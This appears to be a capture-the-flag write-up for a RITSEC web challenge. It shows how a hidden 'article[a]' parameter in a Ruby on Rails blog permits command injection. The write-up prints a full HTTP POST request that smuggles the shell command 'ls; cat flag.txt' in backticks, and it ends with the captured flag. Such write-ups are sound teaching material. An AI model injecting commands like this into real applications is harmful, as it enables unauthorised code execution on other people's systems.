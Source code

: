 # Challenge
```
fun.ritsec.club:3000

Author: hulto

```
# Solve

After looking on the website for a while, I find something very interesting. When posting articles, the article doesn't get posted and we get redirected to a blank page. After analyzing the POST request for the article creation page, I notice the following POST parameters:

* article[title] - The title of the article
* article[text] - The content of the article
* article[a] - ???

The `article[a]` was very weird. I tried modifying it, but it only accepted numbers, otherwise an error would be thrown. Scouting the source of the website's files, we can figure out it's a ruby on rails application. After fiddling with it, we can obtain Remote Code Execution by injecting commands in the `a` parameter.

Our request would look like this:

```
POST /articles HTTP/1.1
Host: fun.ritsec.club:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en-GB;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://fun.ritsec.club:3000/articles/new
Content-Type: application/x-www-form-urlencoded
Content-Length: 214
Connection: close
Cookie: _blog_session=eD0v3Cb7dd62Tyl79dwyPfwQk8I5Jyc5ICM5ow9aq1N5De0cth8oFWoJOyOw%2Bcgmt4Po1DBcyEx7cKdzft09CIJyjjBG%2B5ooNycNTi2TOLiJLc7fIWcOh%2FoHkD8qd285%2BHZfEcyPW3sMom3stG4%3D--kXSYp4rypd%2F8fdvw--UJ3q9hz0%2BhIUcG999GdPsA%3D%3D
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

utf8=%E2%9C%93&authenticity_token=hqUwY3crUTSTCrg8ZuTqqaHphRrJOt2kqr6zPq3R5A%2B3rRaV9BLbwhdx%2B3%2FMCULd4fpAGb4rVjrtq8ToKUncDQ%3D%3D&article%5Btitle%5D=oof&article%5Btext%5D=test&article%5Ba%5D=`ls; cat flag.txt`&commit=Save+Article
```

![](https://i.imgur.com/miv9gpE.png)

![](https://i.imgur.com/5aJtgtm.png)

Bingo! The flag was `RITSEC{W0wzers_who_new_3x3cuting_c0de_to_debug_was_@_bad_idea}`.
